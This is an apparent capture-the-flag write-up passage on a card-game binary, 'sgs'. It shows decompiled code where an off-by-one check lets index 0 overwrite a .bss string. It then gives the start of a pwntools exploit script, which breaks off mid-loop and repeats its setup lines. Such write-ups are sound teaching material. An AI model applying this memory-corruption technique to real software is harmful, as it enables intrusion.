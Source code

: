 They mystery is in throwing cards:
```
unsigned __int64 make_choice()
{
...
      puts("put the e_card number you want to throw");
      __isoc99_scanf("%d", &throw_num);
      if ( throw_num <= action_nums && throw_num >= 0 )
        break;
      puts("invalid input");
    }
    --action_nums;
    while ( throw_num <= action_nums )
    {
      my_e_cards[throw_num - 1] = my_e_cards[throw_num];
      ++throw_num;
    }
    v2 = 0;
    if ( v3 > 1 )
    {
      ...
        __isoc99_scanf("%d", &throw_num);
      ...
      --action_nums;
      while ( throw_num <= action_nums )
      {
        my_e_cards[throw_num - 1] = my_e_cards[throw_num];
        ++throw_num;
      }
...
```

Looks at it:`if ( throw_num <= action_nums && throw_num >= 0 )`, we can throw card index `0`, which will result:
```c
my_e_cards[throw_num - 1] = my_e_cards[throw_num];
++throw_num;
```

We can switch `my_e_cards[-1]` once `throw_num` is `0`! How doest it relate to our exploit? Inspect the `bss` area:
```
.bss:00000000006031F0 g4lf_string     dd ?                   
.bss:00000000006031F8 my_e_cards      db ?  
```

We can change the `4` in `g4lf_string` by throwing `a`. In addition, we need a `g` following by the `a` to recover the last byte `g`:
```python
from pwn import *
s = process("./sgs")
context.log_level = "DEBUG"

from pwn import *
p = process("./sgs")

p.sendlineafter("game","")
p.sendlineafter("?", "U")
p.sendlineafter("name", "a" )
p.sendlineafter("!", "1")
result = p.recv()
state=0
sent=0
found = 0

while result.find("lose") == -1:
```